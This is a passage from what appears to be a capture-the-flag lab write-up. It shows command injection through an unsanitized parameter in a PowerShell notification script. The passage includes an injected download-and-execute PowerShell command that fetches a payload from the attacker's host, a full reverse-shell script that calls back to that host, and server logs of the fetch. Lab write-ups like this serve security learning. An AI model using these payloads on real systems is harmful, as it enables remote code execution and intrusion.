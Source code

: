 ```powershell
    exit 0;
  
  }else
  {
    # Directory does not exist.
    exit 2;
  }
}
```

We can abuse the Powershell script since it passes `$Args[0]` unsanitized. Here is our test value for the parameter field of the notification: `c:\users\public\bubba.txt; mkdir c:\users\public\bubba `. When running the notification (by hitting the little blue bell on the right), we get both `bubba.txt` and the `bubba` directory under `c:\users\public` when browseing with our FTP access! Now for our shell, we need to modify the values a bit. We will host a payload and have the target fetch and execute it. Here is our new parameter field: 

```powershell
c:\users\public\bubba.txt; Invoke-Expression (New-Object Net.WebClient).DownloadString('http://10.10.14.120:8000/p.ps1')
```

And here is our `p.ps1` payload (from https://gist.github.com/staaldraad/a4e7095db8a84061c0ec):

```powershell
$socket = new-object System.Net.Sockets.TcpClient('10.10.14.120', 9009);
if($socket -eq $null){exit 1}
$stream = $socket.GetStream();
$writer = new-object System.IO.StreamWriter($stream);
$buffer = new-object System.Byte[] 1024;
$encoding = new-object System.Text.AsciiEncoding;
do{
  $writer.Write("> ");
  $writer.Flush();
  $read = $null;
  while($stream.DataAvailable -or ($read = $stream.Read($buffer, 0, 1024)) -eq $null){} 
  $out = $encoding.GetString($buffer, 0, $read).Replace("`r`n","").Replace("`n","");
  if(!$out.equals("exit")){
    $out = $out.split(' ')
          $res = [string](&$out[0] $out[1..$out.length]);
    if($res -ne $null){ $writer.WriteLine($res)}
  }
}While (!$out.equals("exit"))
$writer.close();$socket.close();
```

When running our new notification parameter and hosting the payload, we get the following:

<pre><font color="#EF2929"><b>root@kali</b></font>:<font color="#729FCF"><b>~/Desktop/netmon</b></font># python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
10.10.10.152 - - [18/Mar/2019 00:46:46] &quot;GET /p.ps1 HTTP/1.1&quot; 200 -</pre>

And in our other window listening for the callback:
